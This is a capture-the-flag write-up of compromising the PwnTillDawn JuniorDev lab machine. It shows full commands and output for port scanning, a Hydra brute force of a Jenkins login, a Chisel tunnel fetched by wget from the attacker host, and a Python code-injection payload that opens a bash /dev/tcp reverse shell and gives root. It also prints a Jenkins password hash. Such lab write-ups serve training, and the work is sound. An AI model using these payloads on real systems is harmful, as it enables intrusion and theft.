


PwnTillDawn JuniorDev Machine Write-Up
1. Service Scan with Nmap
To identify open ports and services, I conducted a comprehensive scan with Nmap:
msf >> db_nmap -p- -T5 -vv 10.150.150.38
Results:
- Port 22: SSH (open)
- Port 30609: Unknown service (open)
[msf](Jobs:0 Agents:0) >> db_nmap -p- -T5 -vv 10.150.150.38
[*] Nmap: Scanning 10.150.150.38 [65535 ports]
[*] Nmap: Nmap scan report for 10.150.150.38
[*] Nmap: Host is up, received echo-reply ttl 63 (0.26s latency).
[*] Nmap: Scanned at 2024-09-12 09:44:21 EAT for 505s
[*] Nmap: Not shown: 65533 closed tcp ports (reset)
[*] Nmap: PORT STATE SERVICE REASON
[*] Nmap: 22/tcp open ssh syn-ack ttl 63
[*] Nmap: 30609/tcp open unknown syn-ack ttl 63
[*] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 505.39 seconds
[*] Nmap: Raw packets sent: 72198 (3.177MB) | Rcvd: 70163 (2.807MB)
2. Brute Forcing Jenkins Login
A brute-force attack was performed on the Jenkins server running on port 30609 using Hydra:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 30609 10.150.150.38 http-post-form -t 30 "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
Result:
- Login:
admin - Password:
matrix
┌─[elliot@parrot]─[~]
└──╼ $hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 30609 10.150.150.38 http-post-form -t 30 '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-12 10:18:08
[DATA] max 30 tasks per 1 server, overall 30 tasks, 14344399 login tries (l:1/p:14344399), ~478147 tries per task
[DATA] attacking http-post-form://10.150.150.38:30609/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid
[STATUS] 477.00 tries/min, 477 tries in 00:01h, 14343922 to do in 501:12h, 30 active
[30609][http-post-form] host: 10.150.150.38 login: admin password: matrix
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-12 10:19:40
4. Capturing the Reverse Shell
The reverse shell was successfully initiated as I found a interactive console to interact with

After gaining access, I started exploring the system. Using the find command, I located potential flags:
find / -name FLAG* 2>/dev/null
Results:
/var/lib/jenkins/users/FLAG69_7705914462374786576/var/lib/jenkins/FLAG70.txt
I accessed the contents of FLAG70.txt and inspected FLAG69 for hidden information.
┌─[✗]─[elliot@parrot]─[~]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.66.66.54] from (UNKNOWN) [10.150.150.38] 34746
locate FLAG*
/bin/bash: line 1: locate: command not found
find / -name FLAG* 2>/dev/null
/var/lib/jenkins/users/FLAG69_7705914462374786576
/var/lib/jenkins/FLAG70.txt
python -c "import pty;pty.spawn('/bin/sh')"
bash
bash
$ jenkins@dev1:/$ cat /var/lib/jenkins/users/FLAG69_7705914462374786576
cat /var/lib/jenkins/users/FLAG69_7705914462374786576
cat: /var/lib/jenkins/users/FLAG69_7705914462374786576: Is a directory
jenkins@dev1:/$ ls /var/lib/jenkins/users/FLAG69_7705914462374786576
ls /var/lib/jenkins/users/FLAG69_7705914462374786576
config.xml
jenkins@dev1:/$ cat /var/lib/jenkins/users/FLAG69_7705914462374786576/config.xml
[ REDUCTED ]
passwordHash>#jbcrypt:$2a$10$hzIuA8mfLq7hjbaj5PEqyukvpF0V5RKkKfnsMIV5DjjQXuh0y66O.
[ REDUCTED ]
jenkins@dev1:/$ cat /var/lib/jenkins/FLAG70.txt
cat /var/lib/jenkins/FLAG70.txt
5. Privilege Escalation and Further Discovery
After attempting privilege escalation, I identified a locally-hosted calculator app on port 8080 using netstat:
netstat -antlp
However, the service was accessible only on localhost. Inspecting the HTML revealed a commented reference to another flag:
<!-- <img src="./static/FLAG.png"> -->
jenkins@dev1:/$ netstat -antlp
netstat -antlp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp6 0 0 :::30609 :::* LISTEN 467/java
tcp6 0 0 :::22 :::* LISTEN -
tcp6 1 0 10.150.150.38:30609 10.66.66.54:51032 CLOSE_WAIT 467/java
tcp6 0 0 10.150.150.38:34746 10.66.66.54:4444 ESTABLISHED 467/java
jenkins@dev1:/$ cd /tmp
cd /tmp
jenkins@dev1:/tmp$ ls
ls
hsperfdata_jenkins
hsperfdata_root
jetty-0_0_0_0-30609-war-_-any-9986462623835705441.dir
systemd-private-1757a29a649941ff9aec912c7924b74b-systemd-timesyncd.service-0uHx2M
winstone13733391394321067299.jar
jenkins@dev1:/tmp$ wget localhost:8080
wget localhost:8080
--2020-07-29 08:30:22-- http://localhost:8080/
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:8080... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.html’
index.html [ <=> ] 607 --.-KB/s in 0s
2020-07-29 08:30:22 (14.5 MB/s) - ‘index.html’ saved [607]
jenkins@dev1:/tmp$ cat index.html
cat index.html
6. Tunneling with Chisel
To access the calculator app remotely, I set up a reverse tunnel using Chisel:
On the attacker machine
chisel server --port 1234 --reverse
On the target machine
wget http://10.66.66.54:8000/chisel
chmod +x chisel
./chisel client 10.66.66.54:1234 R:8080:127.0.0.1:8080
7. Exploiting the Calculator App
From the first column of the calculator, I executed a Python reverse shell payload:
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.54/8200 0>&1"')
8. Root Access and Final Flag
Upon connecting to the reverse shell listener on port 8200, I obtained root access:
nc -lvnp 8200
I navigated to the /root directory and retrieved the final flag:
cat /root/FLAG72.txt
┌─[elliot@parrot]─[~]
└──╼ $nc -lvnp 8200
listening on [any] 8200 ...
connect to [10.66.66.54] from (UNKNOWN) [10.150.150.38] 54848
bash: cannot set terminal process group (400): Inappropriate ioctl for device
bash: no job control in this shell
root@dev1:~/mycalc# id
id
uid=0(root) gid=0(root) groups=0(root)
root@dev1:~/mycalc# pwd
pwd
/root/mycalc
root@dev1:~/mycalc# ls
ls
base.html
__pycache__
static
templates
untitled.py
untitled.pyc
root@dev1:~/mycalc# ls /root
ls /root
FLAG72.txt
mycalc
root@dev1:~/mycalc# cat /root/FLAG72.txt
cat /root/FLAG72.txt
[ REDUCTED ]
Just Like that I pawned the juniourDev machine
